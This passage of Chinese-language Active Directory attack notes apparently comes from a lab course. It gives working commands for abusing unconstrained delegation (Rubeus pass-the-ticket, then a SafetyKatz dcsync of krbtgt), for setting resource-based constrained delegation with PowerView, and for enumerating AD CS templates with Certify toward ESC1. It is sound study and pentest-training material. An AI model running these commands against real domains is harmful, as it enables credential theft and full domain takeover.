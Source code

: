 用以上任意一個工具去強迫`dcorp-dc$`對dcorp-appsrv做Unconstrained Delegation發生，接著listener mode的Rubeus就會收到 `dcorp-dc$`的TGT
- Exploit
``` 
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args ptt /ticket:doIFx...
```
跳出視窗後，可以dump lsa
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
## Resource-Based Constrained Delegation (RBCD)
>[!NOTE]
>**RBCD 是 KCD 的新型態**，差別在於它把控制權「下放給資源端」，不需要 Domain Admin，**目標資源（被訪問的電腦）本身就能決定**「誰可以代替使用者進來」。在「資源方」的帳號物件上設定 `msDS-AllowedToActOnBehalfOfOtherIdentity`， 意思是資源（被存取的服務）自己決定「誰可以代表使用者來訪問我」。這樣可以避免原本要 Domain Admin 權限才能修改委派屬性，降低管理負擔，但同時也帶來濫用風險。

>[!CAUTION]
>如果你對某台機器的 AD 物件有 **GenericWrite / WriteDACL** 權限（即使你不是 Domain Admin），你就能改它的 `msDS-AllowedToActOnBehalfOfOtherIdentity`，指定「你的機器」為被信任代理人，設定完後，你就能用自己的機器帳號，去假冒任何域內使用者（甚至 Domain Admin）存取那台目標機器。
### PowerView 指令
``` powershell=
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-studentx$' -Verbose
```

- 上方指令為用來設定某個目標（這裡是 `dcorp-mgmt`，一台電腦物件）的 RBCD 權限。
	- `-DelegateFrom 'dcorp-studentx$'` 表示：允許 `dcorp-studentx$` 這個電腦帳號，能代表任何使用者去訪問 `dcorp-mgmt`。
	- 換句話說：在 `dcorp-mgmt` 的 AD 屬性 `msDS-AllowedToActOnBehalfOfOtherIdentity` 裡，新增了 `dcorp-studentx$`。
	- 結果：如果攻擊者控制了 `dcorp-studentx$` 這台機器，就能冒用域內任意使用者（甚至 Domain Admin）去連線 `dcorp-mgmt`，拿到高權限。
- 顯示哪些電腦物件設定了 RBCD
``` powershell
Get-DomainRBCD
```
## AD CS攻擊手法
>[!NOTE]
>主要分成ECS1-8
### AD CS 列舉
- 在目前網域中尋找所有「可發行憑證的企業 CA」
```
C:\AD\Tools\Certify.exe cas
```
- 列出所有templates
```
C:\AD\Tools\Certify.exe find
```
### ESC1 攻擊手法
>[!NOTE]
>**ESC1** 就是「範本允許任何申請人自己指定憑證主體 (ENROLLEE_SUPPLIES_SUBJECT)，而憑證又能做 Client Authentication」，導致一般使用者可以簽出看似 Administrator 的憑證，進而取得高權限 Kerberos TGT。

>[!INFO]
>憑證範本允許申請者（enrollee）自己決定憑證裡的「Subject」欄位（甚至 Subject Alternative Name, SAN），而這張憑證又可以用於 **Client Authentication**。
